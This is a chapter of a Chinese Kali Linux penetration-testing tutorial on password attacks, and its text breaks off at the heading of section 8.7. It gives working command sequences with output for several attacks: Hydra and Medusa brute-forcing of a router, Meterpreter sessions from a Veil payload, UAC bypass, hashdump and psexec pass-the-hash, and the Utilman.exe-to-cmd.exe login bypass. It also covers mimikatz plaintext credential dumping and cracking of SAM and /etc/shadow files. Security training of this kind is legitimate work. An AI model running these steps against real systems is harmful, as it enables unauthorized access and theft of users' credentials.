


# 第八章　密码攻击

密码攻击就是在不知道密钥的情况下，恢复出密码明文。密码攻击是所有渗透测试的一个重要部分。如果作为一个渗透测试人员，不了解密码和密码破解，简直无法想象。所以无论做什么或我们的技术能力到了什么程度，密码似乎仍然是保护数据和限制系统访问权限的最常用方法。本章将介绍各种密码攻击方法，如密码在线攻击、路由器密码攻击和创建密码字典等。

# 8.1 密码在线破解

## 8.1 密码在线破解

为了使用户能成功登录到目标系统，所以需要获取一个正确的密码。在 Kali 中，在线破解密码的工具很多，其中最常用的两款分别是 Hydra 和 Medusa。本节将介绍使用 Hydra 和 Medusa 工具实现密码在线破解。

### 8.1.1 Hydra 工具

Hydra 是一个相当强大的暴力密码破解工具。该工具支持几乎所有协议的在线密码破解，如 FTP、HTTP、HTTPS、MySQL、MS SQL、Oracle、Cisco、IMAP 和 VNC 等。其密码能否被破解，关键在于字典是否足够强大。很多用户可能对 Hydra 比较熟悉，因为该工具有图形界面，且操作十分简单，基本上可以“傻瓜”操作。下面将介绍使用 Hydra 工具破解在线密码。

使用 Hydra 工具破解在线密码。具体操作步骤如下所示。

（1）启动 Hydra 攻击。在 Kali 桌面依次选择“应用程序”|Kali Linux|“密码攻击”|“在线攻击”|hydra-gtk 命令，将显示如图 8.1 所示的界面。


图 8.1 启动界面

（2）该界面用于设置目标系统的地址、端口和协议等。如果要查看密码攻击的过程，将 Output Options 框中的 Show Attempts 复选框勾上。在该界面单击 Passwords 选项卡，将显示如图 8.2 所示的界面。


图 8.2 指定密码字典

（3）在该界面指定用户名和密码列表文件。本例中使用 Kali 系统中存在的用户名和密码列表文件，并选择 Loop around users 选项。其中，用户名和密码文件分别保存在/usr/share/wfuzz/wordlist/fuzzdb/wordlists-user-passwd/names/nameslist.txt 和/usr/share/wfuzz/wordlist/fuzzdb/wordlists-user-passwd/passwds/john.txt 中。

（4）设置好密码字典后，单击 Tuning 选项卡，将显示如图 8.3 所示的界面。


图 8.3 基本设置

（5）在该界面设置任务的编号和超时时间。如果运行任务太多的话，服务的响应速率将下降。所以要建议将原来默认的任务编号 16 修改为 2，超时时间修改为 15。然后将 Exit after first found pair 的复选框勾上，表示找到第一对匹配项时则停止攻击。

（6）以上的配置都设置完后，单击到 Start 选项卡进行攻击，如图 8.4 所示。


图 8.4 攻击界面

（7）在该界面显示了四个按钮，分别是启动、停止、保存输出和清除输出。这里单击 Start 按钮开始攻击，攻击过程如图 8.5 所示。


图 8.5 攻击过程

（8）xHydra 工具根据自定的用户名和密码文件中的条目，进行匹配。当找到匹配的用户名和密码时，则停止攻击，如图 8.5 所示。

### 8.1.2 Medusa 工具

Medusa 工具是通过并行登录暴力破解的方法，尝试获取远程验证服务访问权限。Medusa 能够验证的远程服务，如 AFP、FTP、HTTP、IMAP、MS SQL、NetWare、NNTP、PcAnyWhere、POP3、REXEC、RLOGIN、SMTPAUTH、SNMP、SSHv2、Telnet、VNC 和 Web Form 等。下面将介绍使用 Medusa 工具获取路由器的访问权。

启动 Medusa 工具。在终端直接运行 medusa 命令，如下所示：

```
root@kali:~# medusa 
```

或者在桌面上依次选择“应用程序”|Kali Linux|“密码攻击”|“在线攻击”|medusa 命令，将输出如下所示的信息：


以上输出的信息显示了 medusa 命令的帮助信息。包括 meduas 命令的语法、可使用的选项及参数。用户可以根据自己的需要，选择相应的选项获取路由器的访问权。下面看一个例子的运行结果。

【实例 8-1】使用 medusa 暴力破解地址为 192.168.5.1 的路由器，执行命令如下所示：

```
root@kali:~# medusa -h 192.168.5.1 -u admin -P /usr/share/wfuzz/wordlist/fuzzdb/wordlists-user-
passwd/passwds/john.txt -M http -e ns 80 -F
Medusa v2.0 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: (1 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: admin (2 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: 12345 (3 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: abc123 (4 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: password (5 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: computer (6 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: 123456 (7 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: huolong5 (8 of 3109 complete)
ACCOUNT FOUND: [http] Host: 192.168.5.1 User: admin Password: daxueba [SUCCESS] 
```

以上输出的信息是破解路由器密码的一个过程。一般路由器默认的用户名和密码都是 admin。但是通常，用户会将密码进行修改。所以这里指定一个密码字典 john.txt，通过该字典对路由器进行暴力破解。从最后一行输出的信息，可以看到路由器的用户名和密码分别为 admin 和 daxueba。

# 8.2 分析密码

## 8.2 分析密码

在实现密码破解之前，介绍一下如何分析密码。分析密码的目的是，通过从目标系统、组织中收集信息来获得一个较小的密码字典。本节将介绍使用 Ettercap 工具或 MSFCONSOLE 来分析密码。

### 8.2.1 Ettercap 工具

Ettercap 是 Linux 下一个强大的欺骗工具，也适用于 Windows。用户能够使用 Ettercap 工具快速地创建伪造的包，实现从网络适配器到应用软件各种级别的包，绑定监听数据到一个本地端口等。下面将介绍 Ettercap 工具的使用。

使用 Ettercap 分析密码的具体操作步骤如下所示。

（1）配置 Ettercap 的配置文件 etter.conf。首先使用 locate 命令查找到 Ettercap 配置文件保存的位置。执行命令如下所示：

```
root@kali:~# locate etter.conf
/etc/ettercap/etter.conf
/usr/share/man/man5/etter.conf.5.gz 
```

从以上输出信息中，可以看到 Ettercap 配置文件 etter.conf 保存在/etc/ettercap/中。

（2）使用 VIM 编辑 etter.conf 配置文件。将该文件中 ec_uid 和 ec_gid 配置项值修改为 0，并将 Linux 部分附近 IPTABLES 行的注释去掉。修改结果如下所示：

```
root@kali:~# vi /etc/ettercap/etter.conf
[privs]
ec_uid = 0             # nobody is the default
ec_gid = 0             # nobody is the default
……
#---------------
#   Linux
#---------------

# if you use iptables:
  redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
  redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport" 
```

（3）启动 Ettercap。使用 Ettercap 命令的-G 选项，启动图形界面。执行命令如下所示：

```
root@kali:~# ettercap -G 
```

执行以上命令后，将显示如图 8.6 所示的界面。


图 8.6 Ettercap 初始界面

（4）通过使用中间人攻击的方式，收集目标系统上的各种重要信息。通过这些信息来构建可能的密码字典。关于使用 Ettercap 实现中间人攻击，在第七章已详细介绍，这里不再赘述。

### 8.2.2 使用 MSFCONSOLE 分析密码

使用 Metasploit MSFCONSOLE 的 search_email_collector 模块分析密码。通过该模块可以搜集一个组织相关的各种邮件信息。这些邮件信息有助于构建用户字典。具体操作步骤如下所示。

（1）使用 MSFCONSOLE。执行命令如下所示：

```
root@kali:~# msfconsole
msf > 
```

（2）查询 search_email_collector 模块。执行命令如下所示：


执行以上命令后，在输出结果中看到以上信息，就表示存在 search_email_collector 模块。

（3）使用辅助模块 search_email_collector。执行命令如下所示：

```
msf > use auxiliary/gather/search_email_collector
msf auxiliary(search_email_collector) > 
```

输出的信息表示，已切换到 search_email_collector 模块。

（4）查看 search_email_collector 模块下有效的选项。执行命令如下所示：



输出的信息显示了 search_email_collector 模块中有效的配置选项，根据用户自己的情况配置相应的选项。

（5）下面分别配置 DOMAIN 和 OUTFILE 选项，如下所示：

```
msf auxiliary(search_email_collector) > set DOMAIN gmail.com
domain => gmail.com
msf auxiliary(search_email_collector) > set outfile /root/Desktop/fromwillie.txt
outfile => /root/Desktop/fromwillie.txt 
```

（6）启动渗透攻击。执行命令如下所示：

```
msf auxiliary(search_email_collector) > run
[*] Harvesting emails …..
[*] Searching Google for email addresses from gmail.com
[*] Extracting emails from Google search results…
[*] Searching Bing email addresses from gmail.com
[*] Extracting emails from Bing search results…
[*] Searching Yahoo for email addresses from gmail.com
……
[*]  rasvin.247@gmail.com
[*]  read.jeff@gmail.com
[*]  restore.adore@gmail.com
[*]  rhetoricguy@gmail.com
[*]  sammy@gmail.com
[*]  signaturetitleservices@gmail.com
[*]  smplustb@gmail.com
[*]  starfyi@gmail.com
[*]  taylorhansson@gmail.com
[*]  thanhtam.hr@gmail.com
[*]  theidleague@gmail.com
[*]  tjarkse@gmail.com
[*]  toni@gmail.com
[*]  user@gmail.com
[*]  vintageheadboards@gmail.com
[*]  vlyubish270@gmail.com
[*]  webuyrarebooks@gmail.com
[*]  yavmamemogames@gmail.com
[*]  yoyonorfcack@gmail.com
[*] Writing email address list to /root/Desktop/fromwillie.txt…
[*] Auxiliary module execution completed 
```

输出的信息显示了所有 gmail.cm 的邮箱地址，并且将所有信息保存在 fromwillie.txt 文件中。此时用户可以根据收集到的邮箱用户信息，猜测它的密码。

### 8.2.3 哈希值识别工具 Hash Identifier

哈希值是使用 HASH 算法通过逻辑运算得到的数值。不同的内容使用 HASH 算法运算后，得到的哈希值不同。下面将介绍使用 Hash Identifier 工具识别哈希值的加密方式。

（1）启动 hash-identifier 命令。在图形界面依次选择“应用程序”|Kali Linux|“密码攻击”|“离线攻击”|hash-identifier 命令，将显示如下所示的信息：


从输出的信息中看到 HASH:提示符，就表示成功打开了 hash-identifier 命令的终端。此时，攻击时就有 LM 加密的哈希值。

（2）攻击 6bcec2ba2597f089189735afeaa300d4 哈希值。执行命令如下所示：

```
 HASH: 6bcec2ba2597f089189735afeaa300d4
Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC) 
```

从输出的信息中，可以看到 6bcec2ba2597f089189735afeaa300d4 哈希值可能是使用 MD5 加密的。

# 8.3 破解 LM Hashes 密码

## 8.3 破解 LM Hashes 密码

LM（LAN Manager）Hash 是 Windows 操作系统最早使用的密码哈希算法之一。在 Windows 2000、XP、Vista 和 Windows 7 中使用了更先进的 NTLMv2 之前，这是唯一可用的版本。这些新的操作系统虽然可以支持使用 LM 哈希，但主要是为了提供向后兼容性。不过在 Windows Vista 和 Windows 7 中，该算法默认是被禁用的。本节将介绍如何破解 LM Hashes 密码。

在 Kali Linux 中，可以使用 findmyhash 工具破解 LM Hashes 密码。其中，findmyhash 命令的语法格式如下所示：

```
findmyhash <Encryption> -h hash 
```

以上语法中，各个选项含义如下所示。

*   Encryption：指定使用的哈希加密类型。
*   -h：指定要破解的 LM 哈希值。

【实例 8-2】使用 findmyhash 命令攻击 LM Hashes 密码。执行命令如下所示：

```
root@kali:~# findmyhash MD5 -h 5f4dcc3b5aa765d61d8327deb882cf99
Cracking hash: 5f4dcc3b5aa765d61d8327deb882cf99
Analyzing with md5hood (http://md5hood.com)…
… hash not found in md5hood
Analyzing with stringfunction (http://www.stringfunction.com)…
… hash not found in stringfunction
Analyzing with 99k.org (http://xanadrel.99k.org)…
… hash not found in 99k.org
Analyzing with sans (http://isc.sans.edu)…
… hash not found in sans
Analyzing with bokehman (http://bokehman.com)…
… hash not found in bokehman
Analyzing with goog.li (http://goog.li)…
… hash not found in goog.li
Analyzing with schwett (http://schwett.com)…
… hash not found in schwett
Analyzing with netmd5crack (http://www.netmd5crack.com)…
… hash not found in netmd5crack
Analyzing with md5-cracker (http://www.md5-cracker.tk)…
… hash not found in md5-cracker
Analyzing with benramsey (http://tools.benramsey.com)…
… hash not found in benramsey
Analyzing with gromweb (http://md5.gromweb.com)…
***** HASH CRACKED!! *****
The original string is: password
The following hashes were cracked:
----------------------------------
5f4dcc3b5aa765d61d8327deb882cf99 -> password 
```

以上输出的信息是攻击 LM Hashes 密码的过程。经过一番的攻击，最后获取到哈希值 5f4dcc3b5aa765d61d8327deb882cf99 的原始密码是 password。

如果觉得破解 LM Hashes 太慢的话，可以使用 Metasploit 中的 psexec 模块绕过 Hash 值。下面将介绍使用 psexec 模块绕过 Hash 值的方法。

（1）通过在目标主机（Windows 7）上运行 Veil 创建的可执行文件 backup.exe，成功获取一个活跃的远程会话，如下所示：

```
[*] Started reverse handler on 192.168.6.103:4444
[*] Starting the payload handler…
[*] Sending stage (769536 bytes) to 192.168.6.106
[*] Meterpreter session 1 opened (192.168.6.103:4444 -> 192.168.6.106:49160) at 2014-07-22 15:29:55 +0800 
```

从以上信息中，可以看到成功打开了会话 1。

（2）查看用户权限信息。执行命令如下所示：

```
meterpreter > getuid
Server username: WIN-RKPKQFBLG6C\lyw 
```

从输出的信息中，可以看到该用户的权限是一个普通权限。接下来，使用 bypassuac 模块绕过 UAC。

（3）设置 lyw 用户绕过 UAC。执行命令如下所示：

```
meterpreter > background
[*] Backgrounding session 1…
msf exploit(handler) > use exploit/windows/local/bypassuac
msf exploit(bypassuac) > set session 1
session => 1
msf exploit(bypassuac) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] UAC is Enabled, checking level…
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing…
[+] Part of Administrators group! Continuing…
[*] Uploaded the agent to the filesystem….
[*] Uploading the bypass UAC executable to the filesystem…
[*] Meterpreter stager executable 73802 bytes long being uploaded..
[*] Sending stage (769536 bytes) to 192.168.6.106
[*] Meterpreter session 3 opened (192.168.6.103:4444 -> 192.168.6.106:49160) at 2014-07-22 15:34:38 +0800
meterpreter > getsystem
…got system (via technique 1).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM 
```

从输出的信息中，可以看到此时 lyw 用户权限已经为 SYSTEM。

（4）查看目标主机上所有用户的哈希密码值。执行命令如下所示：

```
meterpreter > run post/windows/gather/hashdump
[*] Obtaining the boot key…
[*] Calculating the hboot key using SYSKEY 45fa5958a01cf2b66b73daa174b19dae…
[*] Obtaining the user list and keys…
[*] Decrypting user keys…
[*] Dumping password hints…
Test:"123"
[*] Dumping password hashes…
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Test:1001:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:daf26fce5b47e01aae0f919f529926e3:::
lyw:1003:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
alice:1004:aad3b435b51404eeaad3b435b51404ee:22315d6ed1a7d5f8a7c98c40e9fa2dec::: 
```

从输出的信息中，可以看到捕获到六个用户的哈希密码值。此时，可以使用 SMB psexec 模块绕过 Hash 值。

（5）后台运行会话 2。执行命令如下所示：

```
meterpreter > background
[*] Backgrounding session 2… 
```

（6）使用 SMB psexec 模块，并设置需要的配置选项参数。执行命令如下所示：

```
msf exploit(bypassuac) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.6.114   #设置远程主机地址
RHOST => 192.168.6.114
msf exploit(psexec) > set SMBUser Test          #设置 SMB 用户
SMBUser => alice
msf exploit(psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:
22315d6ed1a7d5f8a7c98c40e9fa2dec                #设置 SMB 密码
SMBPass => aad3b435b51404eeaad3b435b51404ee:22315d6ed1a7d5f8a7c98c40e9fa2dec 
```

（7）启动攻击。执行命令如下所示：

```
msf exploit(psexec) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] Connecting to the server…
[*] Authenticating to 192.168.6.114:445|WORKGROUP as user 'lyw'…
[*] Uploading payload…
[*] Created \XBotpcOY.exe…
[*] Deleting \XBotpcOY.exe…
[*] Sending stage (769536 bytes) to 192.168.6.114
[*] Meterpreter session 3 opened (192.168.6.103:4444 -> 192.168.6.114:49159) at 2014-07-22 17:32:13 +0800 
```

从输出的信息中，可以看到使用“Test”用户成功的打开了一个会话。

# 8.4 绕过 Utilman 登录

## 8.4 绕过 Utilman 登录

Utilman 是 Windows 辅助工具管理器。该程序是存放在 Windows 系统文件中最重要的文件，通常情况下是在安装系统过程中自动创建的，对于系统正常运行来说至关重要。在 Windows 下，使用 Windows+U 组合键可以调用 Utilman 进程。本节将介绍绕过 Utilman 程序登录系统，就可以运行其他操作。

（1）在 Windows 界面，启动 Kali Linux LiveCD，如图 8.7 所示。


图 8.7 Kali Linux 引导界面

（2）在该界面选择 Live （686-pae），按下回车键即可启动 Kali Linux，如图 8.8 所示。


图 8.8 Kali Linux 操作系统

（3）在该界面打开 Windows 文件系统。在 Kali Linux 桌面依次选择 Places|43GB Filesystem 选项，将打开如图 8.9 所示的界面。这里的 43G 表示当前 Windows 系统的磁盘大小。


图 8.9 Windows 磁盘中的文件和文件夹

（4）该界面显示了 Windows 操作系统中的文件和文件夹。这里依次打开 Windows|System32 文件夹，将显示如图 8.10 所示的内容。



图 8.10 System32 目录中的内容

（5）在该文件夹中找到 Utilman.exe 文件，将该文件重命名为 Utilman.old。然后复制 cmd.exe 文件，并将其文件名修改为 Utilman.exe。

（6）现在关闭 Kali Linux，并启动 Windows 系统。在登录界面按下 Windows+u 组合键，将显示如图 8.11 所示的界面。


图 8.11 Windows 登录界面

（7）从该界面可以看到打开一个命令提示符窗口。在该窗口中，可以执行一些 DOS 命令。例如，使用 whoami 命令查看用户信息，将显示如图 8.12 所示的界面。


图 8.12 用户权限信息

（8）从输出的界面可以看到，当前用户拥有最高的权限。此时，就可以进行任何的 操作。

学习了绕过 Utilman 登录后，可以使用 mimikatz 工具恢复目标系统锁定状态时用户的密码。下面将介绍使用 mimikatz 工具，从锁定状态恢复密码。

在操作之前需要做一些准备工作。首先从[`blog.gentilkiwi.com/mimikatz 网站下载 mimikatz 工具，其软件包名为 mimikatz_trunk.zip。然后将该软件包解压，并保存到一个 USB 磁盘中。本例中，将解压的文件保存到优盘的 mimikatz 目录中。`](http://blog.gentilkiwi.com/mimikatz 网站下载 mimikatz 工具，其软件包名为 mimikatz_trunk.zip。然后将该软件包解压，并保存到一个 USB 磁盘中。本例中，将解压的文件保存到优盘的 mimikatz 目录中。)

（1）在系统中安装 Utilman Bypass，以便能执行一些命令。

（2）在锁定桌面的 Windows 桌面按下 Windows+u 组合键，如图 8.13 所示。


图 8.13 启动命令行

默认情况下使用 Windows+u 组合键启动 DOS 窗口后，该窗口缓冲区的高度是 30。当输出的数据较多时，将看不到所有的内容。所以需要到 DOS 窗口的属性菜单中，增加窗口的高度，如图 8.14 所示。


图 8.14 属性菜单

在该界面选择“布局”标签，修改屏幕缓冲区大小下面的高度值。然后单击“确定”按钮，即可滚动鼠标查看所有内容。

（3）从图 8.13 中可以看到，Windows7 系统处于锁定状态。此时通过在命令行执行一些命令恢复 Windows 用户密码。首先确认当前用户的权限，执行命令如下所示：

```
C:\Windows\system32> whoami
nt authority\system 
```

（4）进入到 USB 磁盘中，并查看磁盘中的内容。本例中的 USB 磁盘号 F：，执行命令如下所示：

```
C:\Windows\system32> F:
F:\>dir mimikatz
2014/05/26 03:45    4,311 README.md
2014/06/15 04:54    Win32
2014/06/15 04:54    x64 
```

从输出的信息中，可以看到 mimikatz 目录中有三个文件。其中 Win32 和 x64 表示 mimikatz 的两个版本。根据自己的系统架构选择相应的版本，本例中的操作系统是 32 位，所以选择使用 Win32。

（5）查看 Win32 目录中的内容：

```
F:\>cd mimikatz
F:\Mimikatz>cd win32
F:\Mimikatz\Win32>dir
2014/06/15 04:54   29,056 mimidrv.sys
2014/06/15 04:54   189,936 mimikatz.exe
2014/06/15 04:54   27,632 mimilib.dll 
```

从输出的信息中，可以看到 Win32 目录中有三个文件。其中，mimikatz 是一个可执行文件。

（6）运行 mimikatz 程序。执行命令如下所示：


输出信息显示了 mimikatz 的一些相关信息，其中 mimikatz #提示符表示成功登录到了 mimikatz 程序。

（7）恢复密码。执行命令如下所示：

```
mimikatz # sekurlsa::logonPasswords 
```

或：

```
mimikatz # sekurlsa::logonPasswords full 
```

将输出如下所示的信息：

```
Authentication Id : 0; 10201252 (00000000:009ba8a4)
Session              : Interactive from 1
User Name            : lyw
Domain               : Windows7Test
SID                  : S-1-5-21-2306344666-604645106-2825843324-1001
       msv :
  [00010000] CredentialKeys
  * NTLM    : 32ed87bdb5fdc5e9cba88547376818d4
  * SHA1    : 6ed5833cf35286ebf8662b7b5949f0d742bbec3f
  [00000003] Primary
  * Username : lyw
  * Domain   : Windows7Test
  * NTLM      : 32ed87bdb5fdc5e9cba88547376818d4
  * SHA1      : 6ed5833cf35286ebf8662b7b5949f0d742bbec3f
 tspkg :
 wdigest :
  * Username  : lyw
  * Domain    : Windows7Test
  * Password  : 123456
 kerberos :
  * Username  : lyw
  * Domain    : Windows7Test
  * Password  : (null)
 ssp :
 credman : 
```

从以上输出信息中，可以看到锁定用户的所有信息。如用户名、各种加密的 HASH 值、域名和密码等。

# 8.5 破解纯文本密码工具 mimikatz

## 8.5 破解纯文本密码工具 mimikatz

mimikatz 是一款强大的系统密码破解获取工具。该工具有段时间是作为一个独立程序运行。现在已被添加到 Metasploit 框架中，并作为一个可加载的 Meterpreter 模块。当成功的获取到一个远程会话时，使用 mimikatz 工具可以很快的恢复密码。本节将介绍使用 mimikatz 工具恢复密码。

【实例 8-3】演示使用 mimikatz 恢复纯文本密码。具体操作步骤如下所示。

（1）通过在目标主机（Windows 7）上运行 Veil 创建的可执行文件 backup.exe，获取一个远程会话。如下所示：

```
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] Starting the payload handler…
[*] Sending stage (769536 bytes) to 192.168.6.110
[*] Meterpreter session 2 opened (192.168.6.103:4444 -> 192.168.6.110:1523) at 2014-07-19 16:54:18 +0800
meterpreter > 
```

从输出的信息中，可以看到获取到了一个与 192.168.6.110 主机的远程会话。

（2）确认目标用户的权限。执行命令如下所示：

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM 
```

从输出信息中，可以看到当前用户已经是系统权限。此时，就可以进行其他操作了。

（3）加载 mimikatz 模块。执行命令如下所示：

```
meterpreter > load mimikatz
Loading extension mimikatz…success. 
```

从输出的信息中，可以看到 mimikatz 模块已加载成功。

（4）查看 mimikatz 模块下有效的命令。执行命令如下所示：

```
meterpreter > help 
```

执行以上命令后，会输出大量的信息。其中，在 Meterpreter 中所有的命令都已分类。这里主要介绍下 mimikatz 相关的命令，如下所示：

```
Mimikatz Commands
=================
  Command    Description
  -------    -----------
  kerberos   Attempt to retrieve kerberos creds
  livessp    Attempt to retrieve livessp creds
  mimikatz_command  Run a custom commannd
  msv        Attempt to retrieve msv creds (hashes)
  ssp        Attempt to retrieve ssp creds
  tspkg      Attempt to retrieve tspkg creds
  wdigest    Attempt to retrieve wdigest creds 
```

以上输出信息显示了可执行的 Mimikatz 命令。如回复 kerberos 信息、livessp 信息和哈希信息等。

【实例 8-4】恢复哈希密码。执行命令如下所示：


执行以上命令后，输出五列信息。分别表示认证 ID、包、域名、用户名和密码。从该界面可以看到，当前系统中 bob 用户的哈希密码值中。在哈希密码值中，前面的 lm 表示使用 LM 方式加密；ntlm 表示使用 NTLM 方式加密。

【实例 8-5】获取 kerberos（网络认证协议）信息。执行命令如下所示：


从输出的信息中可以看到，输出的信息类似 msv 命令输出的信息。唯一不同的就是，这里可以看到使用哈希加密的原始密码。从以上信息中，可以看到 bob 用户的密码为 www.123。

【实例 8-6】获取 wdigest（摘要式身份验证）信息，如下所示：


以上输出的信息就是当前用户摘要式身份验证的信息。

【实例 8-7】恢复 livessp 身份验证信息。执行命令如下所示：


以上输出的信息显示了当前用户 livessp 身份验证信息。

# 8.6 破解操作系统用户密码

## 8.6 破解操作系统用户密码

当忘记操作系统的密码或者攻击某台主机时，需要知道该系统中某个用户的用户名和密码。本节将分别介绍破解 Windows 和 Linux 用户密码。

### 8.6.1 破解 Windows 用户密码

Windows 系统的用户名和密码保存在 SAM（安全账号管理器）文件中。在基于 NT 内核的 Windows 系统中，包括 Windows 2000 及后续版本，这个文件保存在“C:\Windows\System32\Config”目录下。出于安全原因，微软特定添加了一些额外的安全措施将该文件保护了起来。首先，操作系统启动之后，SAM 文件将同时被锁定。这意味着操作系统运行之时，用户无法打开或复制 SAM 文件。除了锁定，整个 SAM 文件还经过加密，且不可见。

幸运的是，现在有办法绕过这些限制。在远程计算机上，只要目标处于运行状态，就可以利用 Meterpreter 和 SAM Juicer 获取计算机上的散列文件。获得访问系统的物理权限之后，用户就可以在其上启动其他的操作系统，如在 USB 或 DVD-ROM 设备上的 Kali Linux。启动目标计算机进入到其他的操作系统之后，用户可以使用 Kali 中的 John the Ripper 工具来破解该 Windows 用户密码。

使用 John the Ripper 工具破解 Windows 用户密码。具体操作步骤如下所示。

（1）检查当前系统中的硬盘驱动。执行命令如下所示：


输出的信息表示当前系统中有一块磁盘，并只有一个分区。该文件系统类型是 NTFS，也是 Windows 系统的所存放的磁盘。

（2）挂载硬盘驱动。执行命令如下所示：

```
root@kali:~# mkdir /sda1        #创建挂载点
root@kali:~# mount /dev/sda1 /sda1/  #挂载/dev/sda1 分区 
```

执行以上命令后，没有任何输出信息。

（3）切换目录，进入到 Windows SAM 文件的位置。执行命令如下所示：

```
root@kali:~# cd /sda1/WINDOWS/system32/config/ 
```

在该目录中，可以看到 SAM 文件。

（4）使用 SamDump2 提取 SAM 文件。执行命令如下所示：

```
root@kali:/sda1/WINDOWS/system32/config# samdump2 SAM system > /root/hash.txt
samdump2 1.1.1 by Objectif Securite
http://www.objectif-securite.ch
original author: ncuomo@studenti.unina.it
Root Key : SAM 
```

从输出信息中可以看到提取了 SAM 文件。将该文件的内容重定向到了/root/hash.txt 文件中。

（5）运行 john 命令，实现密码攻击。执行命令如下所示：

```
root@kali:/sda1/WINDOWS/system32/config# /usr/sbin/john /root/hash.txt --format=nt
Created directory: /root/.john
Loaded 6 password hashes with no different salts (NT MD4 [128/128 SSE2 + 32/32])
   (Guest)
guesses: 4 time: 0:00:03:13 0.09% (3) (ETA: Mon May 12 06:46:42 2014) c/s: 152605K trying: 2KRIN.P - 2KRIDY8
guesses: 4 time: 0:00:04:26 0.13% (3) (ETA: Mon May 12 04:02:53 2014) c/s: 152912K trying: GR0KUHI - GR0KDN1
guesses: 4 time: 0:00:04:27 0.13% (3) (ETA: Mon May 12 04:15:42 2014) c/s: 152924K trying: HKCUUHT - HKCUGDS 
```

### 8.6.2 破解 Linux 用户密码

破解 Linux 的密码基本上和破解 Windows 密码的方法非常类似，在该过程中只有一点不同。Linux 系统没有使用 SAM 文件夹来保存密码散列。Linux 系统将加密的密码散列包含在一个叫做 shadow 的文件里，该文件的绝对路径为/etc/shadow。

不过，在使用 John the Ripper 破解/etc/shadow 文件之前，还需要/etc/passwd 文件。这和提取 Windows 密码散列需要 system 文件和 SAM 文件是一样的道理。John the Ripper 自带了一个功能，它可以将 shadow 和 passwd 文件结合在一起，这样就可以使用该工具破解 Linux 系统的用户密码。本小节将介绍破解 Linux 用户密码的方法。

使用 John the Ripper 工具破解 Linux 用户密码。具体操作步骤如下所示。

（1）使用 unshadow 提取密码散列。执行命令如下所示：

```
root@kali:~# unshadow /etc/passwd /etc/shadow > /tmp/linux_hashes.txt 
```

执行以上命令后，会将/etc/passwd/文件与/etc/shadow/文件结合在一起，生成一个叫做 linux_hashes.txt 的文件，保存在/tmp/目录中。

（2）破解 Linux 用户密码。执行命令如下所示：

```
root@kali:~# john --format=crypt --show /tmp/linux_hashes.txt
root:123456:0:0:root:/root:/bin/bash
bob:123456:1000:1001::/home/bob:/bin/sh
alice:123456:1001:1002::/home/alice:/bin/sh
3 password hashes cracked, 0 left 
```

从输出的结果中，可以看到当前系统中共有三个用户，其密码都为 123456。

注意：使用 John the Ripper 开始破解 Linux 密码之前，需要使用支持破解不同类型密码散列的 John the Ripper 版本。如果用错版本或者使用未打补丁的 John the Ripper，程序将返回错误信息 No password hashes loaded（没有价值密码散列）。大多数现代 Linux 系统都使用 SHA 散列加密算法保存密码。

# 8.7 创建密码字典

## 8.7 创建密码字典

